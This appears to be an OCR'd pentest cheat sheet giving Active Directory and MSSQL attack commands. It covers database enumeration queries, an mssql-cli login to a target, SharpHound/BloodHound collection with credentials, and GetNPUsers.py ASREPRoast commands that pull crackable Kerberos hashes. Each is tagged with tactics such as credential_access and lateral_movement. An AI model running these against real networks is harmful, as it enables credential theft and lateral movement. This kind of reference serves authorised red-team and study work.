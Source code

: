 ## list all databases
- `select name from sys.databases`
- `select name from master.dbo.sysdatabases`

## use database
- `use [database]`

## get tables 
- `select * from [database].information_schema.tables`
---

# mssql-cli
- service: sql
- tactics: lateral_movement

## connect to windows mssql Server
- `mssql-cli -S target-ip -U username`

---

# bloodhound
- service: ldap
- serivce: active_directory
- tactics: lateral_movement
- tactics: privilege_escalation

## invoke-bloodhound from sharphound.ps1 
- `import-module .\sharphound.ps1`
- `invoke-bloodHound -CollectionMethod All -domain target-domain -LDAPUser username -LDAPPass password`

---

# getnpusers.py
- service: kerberos
- tactics: credential_access
- tactics: lateral_movement

## check ASREPRoast for all domain users (credentials required)
- `python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`

## check ASREPRoast for a list of users (no credentials required)
- `python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`
